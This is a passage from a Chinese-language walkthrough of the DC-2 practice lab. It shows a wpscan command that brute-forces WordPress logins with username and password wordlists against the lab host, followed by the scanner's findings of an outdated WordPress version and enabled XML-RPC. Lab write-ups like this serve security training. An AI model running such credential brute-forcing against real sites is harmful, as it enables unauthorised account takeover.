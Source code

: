   ![image-20240309122915859](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20240309122915859.png)

  ### 账密爆破

- 万事俱备，使用wpscan进行账密爆破

  ```
  ──(kali💋kali)-[~]
  └─$ wpscan --url http://dc-2 -U dc2_user.dic -P dc2_pass.dic 
  _______________________________________________________________
           __          _______   _____
           \ \        / /  __ \ / ____|
            \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
             \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
              \  /\  /  | |     ____) | (__| (_| | | | |
               \/  \/   |_|    |_____/ \___|\__,_|_| |_|
  
           WordPress Security Scanner by the WPScan Team
                           Version 3.8.22
         Sponsored by Automattic - https://automattic.com/
         @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
  _______________________________________________________________
  
  [+] URL: http://dc-2/ [192.168.200.151]
  [+] Started: Sat Mar  9 04:19:32 2024
  
  Interesting Finding(s):
  
  [+] Headers
   | Interesting Entry: Server: Apache/2.4.10 (Debian)
   | Found By: Headers (Passive Detection)
   | Confidence: 100%
  
  [+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
   | Found By: Direct Access (Aggressive Detection)
   | Confidence: 100%
   | References:
   |  - http://codex.wordpress.org/XML-RPC_Pingback_API
   |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
   |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
   |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
   |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
  
  [+] WordPress readme found: http://dc-2/readme.html
   | Found By: Direct Access (Aggressive Detection)
   | Confidence: 100%
  
  [+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
   | Found By: Direct Access (Aggressive Detection)
   | Confidence: 60%
   | References:
   |  - https://www.iplocation.net/defend-wordpress-from-ddos
   |  - https://github.com/wpscanteam/wpscan/issues/1299
  
  [+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
   | Found By: Rss Generator (Passive Detection)
   |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
   |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
  
  [+] WordPress theme in use: twentyseventeen
   | Location: http://dc-2/wp-content/themes/twentyseventeen/
   | Last Updated: 2024-01-16T00:00:00.000Z
   | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
  ```
